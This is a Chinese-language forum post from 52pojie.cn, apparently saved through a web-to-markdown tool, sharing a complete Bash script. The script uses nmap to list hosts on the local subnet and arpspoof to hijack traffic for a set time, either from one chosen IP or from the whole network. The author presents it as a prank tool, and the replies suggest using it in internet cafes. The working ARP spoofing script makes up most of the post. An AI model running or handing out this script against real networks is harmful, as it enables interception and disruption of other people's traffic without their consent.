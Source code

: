 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.52pojie.cn](https://www.52pojie.cn/forum.php?mod=viewthread&tid=1460197&extra=page%3D1%26filter%3Dauthor%26orderby%3Ddateline) ![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)loukx1006  _ 本帖最后由 loukx1006 于 2021-6-17 13:16 编辑_  
需要 nmap 和 arpspoof  
很简单的一个小脚本，可以拿来做小恶作剧  
[Bash shell] _纯文本查看_ _复制代码_

```
#!/bin/bash
gate=$(ip route show|grep default|awk -F ' ' '{print $3}')
echo "------------------------"
echo "网关ip：$gate"
echo "------------------------"
echo "1： 指定ip"
echo "2： 全体ip"
echo "------------------------"
echo -n "选择 > "
read choice
echo "------------------------"
 
all_ip () {
    echo -n "输入要劫持的时间 > "
    read time
    echo "------------------------"
    arpspoof -i eth0 $gate & { sleep $time;kill $!;sleep 5;kill $!;sleep 5;kill $!&} > /dev/null 2>&1
}
 
choose_ip () {
    see_all=$(nmap -sn $gate/24|grep "Nmap scan"|awk -F ' ' '{print $5;print $6}'|cut -d "(" -f 2 |cut -d ")" -f 1|sed 'N;/^$/d;G')
    # |awk '++i%2' 匹配偶数行
    echo "$see_all"
    echo "------------------------"
    echo -n "输入要进行arp欺骗的ip > "
    read ip
    echo "------------------------"
    echo -n "输入要劫持的时间 > "
    read time
    echo "------------------------"
    arpspoof -i eth0 -t $ip -r $gate & { sleep $time;kill $!;sleep 5;kill $!;sleep 5;kill $!&} > /dev/null 2>&1
}
 
shutdown () {
echo "------------------------"
echo "|         关闭         |"
echo "------------------------"
}
 
if [ $choice = 1 ];then
    choose_ip
    shutdown
elif [ $choice = 2 ];then
    all_ip
    shutdown
else
    echo "输入错误"
    shutdown
fi
```

![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)rzhxw  怎么用，内网是否能用 ![](https://avatar.52pojie.cn/data/avatar/000/53/10/37_avatar_middle.jpg) tanghengvip 可以在网吧玩玩 ![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif) DENGQG 很棒！！！先收藏起来